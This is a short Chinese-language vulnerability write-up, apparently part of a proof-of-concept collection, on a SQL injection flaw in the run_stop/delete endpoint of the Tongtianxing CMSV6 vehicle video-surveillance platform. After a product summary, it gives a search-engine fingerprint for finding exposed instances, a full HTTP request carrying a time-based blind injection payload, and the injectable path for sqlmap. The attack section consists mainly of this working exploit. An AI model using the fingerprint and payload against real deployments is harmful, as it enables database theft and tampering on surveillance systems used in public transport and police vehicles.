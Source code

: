 # 通天星CMSV6车载视频监控平台 run_stop/delete存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台run_stop/delete存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/GsVEgLsQEOTVpq0J/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-051769.png)

# 四、漏洞复现
```plain
GET /run_stop/delete.do;downloadLogger.action?ids=1+AND+%28SELECT+4195+FROM+%28SELECT%28SLEEP%283%29%29%29BDMG%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=6D759FDA5ECC223DF29DFE45859F13DC
Upgrade-Insecure-Requests: 1
```

![1711706599578-2ac6a406-86bb-4b63-9b20-75c9f88b3331.png](./img/GsVEgLsQEOTVpq0J/1711706599578-2ac6a406-86bb-4b63-9b20-75c9f88b3331-964758.png)

sqlmap

```plain
/run_stop/delete.do;downloadLogger.action?ids=1
```

![1711706619835-8f722db4-84ac-4323-93ff-d2c308201ca6.png](./img/GsVEgLsQEOTVpq0J/1711706619835-8f722db4-84ac-4323-93ff-d2c308201ca6-175576.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qws2rrcs8vegdmm8>